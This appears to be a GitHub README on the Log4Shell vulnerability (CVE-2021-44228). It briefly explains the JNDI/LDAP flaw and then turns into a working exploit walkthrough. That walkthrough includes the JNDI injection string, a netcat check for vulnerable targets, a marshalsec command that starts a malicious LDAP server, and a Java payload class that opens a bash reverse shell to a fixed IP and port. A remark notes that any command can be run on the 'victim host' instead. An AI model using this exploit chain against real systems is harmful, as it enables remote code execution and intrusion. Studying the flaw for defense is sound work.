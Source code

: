 
# About Log4Shell - CVE-2021-44228

Log4j is one of the most popular java frameworks. 

This framework involves an API call JNDI. 

This API allows developer to resolve naming services. JNDI has a function “Object lookup” which gives the possibility to return an object from its name.
For example, JNDI can query dns server to make correspondence between a domain name and an IP address, JNDI can also query a lot of services like LDAP or NIS…

The vulnerability takes place because log4j allow request to arbitrary LDAP or DNS server without checking the server response.
Then, an attacker can build malicious LDAP server and make the application execute a payload hosted on the fake LDAP.


## Overview of the Attack

![log4j schema Final](https://user-images.githubusercontent.com/76106120/147581673-63585c5c-ab97-47a8-ac34-b672aeb0be79.png)

# Exploit Log4j

## 1. Find Entry Point

You have to find entry point by injecting request to triggers JNDI lookup resolution to the malicious LDAP.

String to inject: ```${jndi:ldap://<ip>:<port>/<name-of-the-payload-to-execute>}```

First, you can start netcat listener and try to trigger it. 
If the netcat listener is trigger, then you know that the application is vulnerable. 

Demo:

![image](https://user-images.githubusercontent.com/76106120/147582133-b8466261-e23b-4b8f-b997-9541877b06e9.png)
![image](https://user-images.githubusercontent.com/76106120/147582157-c4408876-3af2-42fe-a5ea-8866a0913886.png)



## 2. Build Malicious Server

In our case we gonna build malicious ldap server.
For that you can download this github project: https://github.com/mbechler/marshalsec.git

Once you are in the project, you are able to build malicious ldap server that redirects connection to a web server which host the payload in order to provide it to the JNDI lookup resolution 

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://<Web-Server-IP>:<Port>/#<name-of-the-payload>
```
 Demo :
 
![image](https://user-images.githubusercontent.com/76106120/147582798-29cca013-e779-491a-81bc-7a933ebde226.png)


## 3. Build Java Payload

Java Payload


```
public class ExploitTest {

    static {
        try {
            java.lang.Runtime.getRuntime().exec(new String[] {"/bin/bash", "-c", "bash -i >& /dev/tcp/10.170.0.120/9001 0>&1"}).waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```


>Note: You can replace the last element of the string array by whatever command you want to be executed on the victim host

When your payload is done and ready, you can compile it.
>Note: Keep in mind that the name of your class must be in the same of your .java file otherwise you will get an error during the compilation.

Demo :

![image](https://user-images.githubusercontent.com/76106120/147583275-02f8f4ac-64fd-403f-8ffd-9d9e545429c4.png)

## 4. Ready to Exploit

You can now start web server in the directory of the .class payload.

Hope you get this:

![image](https://user-images.githubusercontent.com/76106120/147583452-0c5aea7f-f4cc-4aa6-bd64-f36c7d5e1490.png)
